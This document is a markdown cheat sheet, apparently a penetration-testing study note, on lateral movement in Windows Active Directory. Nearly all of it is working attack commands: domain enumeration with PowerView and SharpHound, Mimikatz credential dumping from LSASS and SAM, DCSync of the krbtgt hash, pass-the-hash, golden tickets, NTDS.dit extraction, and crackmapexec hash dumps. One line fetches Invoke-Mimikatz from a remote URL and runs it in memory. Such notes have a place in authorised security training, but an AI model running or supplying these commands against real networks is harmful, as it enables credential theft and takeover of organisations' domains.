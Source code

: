 # Lateral Movement  
## Contents 
- [Lateral Movement](#lateral-movement)
  * [Contents](#contents)
  * [What to Look For](#what-to-look-for)
  * [Quick Commands](#quick-commands)
  * [Post Exploitation Enumeration](#post-exploitation-enumeration)
    + [PowerView](#powerview)
  * [Bloodhound](#bloodhound)
  * [Mimikatz](#mimikatz)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?    
Check user home folders (including command history, browser history, zipped archives)   

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
         
### PowerShell Active Directory Module (only on DC by default)
List all hosts on the domain      

    Get-ADComputer -Filter * -Properties ipv4Address, OperatingSystem, OperatingSystemServicePack | Format-List name, ipv4*, oper*      
    
    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
    
## AD Password Files  
NTSDS.dit (db) and SYSTEM registry hive. Can use built in ntdsutil.exe to backup AD. Then use another tool to extract DC hashes, since NTDS.dit is encrypted and opened exclusively for use by OS (can't be copied).     
Back up AD files:    

    ntdsutil           
    activate instance ntds     
    ifm          #commands will generate backup of data in C:\ntds directory. Crack locally.    
    
Then locally extract NTDS.dit and SYSTEM registry data using Impacket script secretsdump.py  

    $ python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL        

Or use Mimikatz to extract hashes from NTDS.dit    

mimikatz # lsadump::dcsync /domain:domain.local /all /csv          

## Crackmapexec     
Dump SAM using adminc creds   

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --sam   #dump SAM - needs admin creds      
Dump LSA secrets     

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --lsa   #dump lsa secrets - need admin on domain controller          
Dump NTDS.dit using secretsdump - needs admin creds on a DC:        

    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds     #dump all hashes    
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds --users         
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds vss     #uses volume shadow copy service to dump hashes     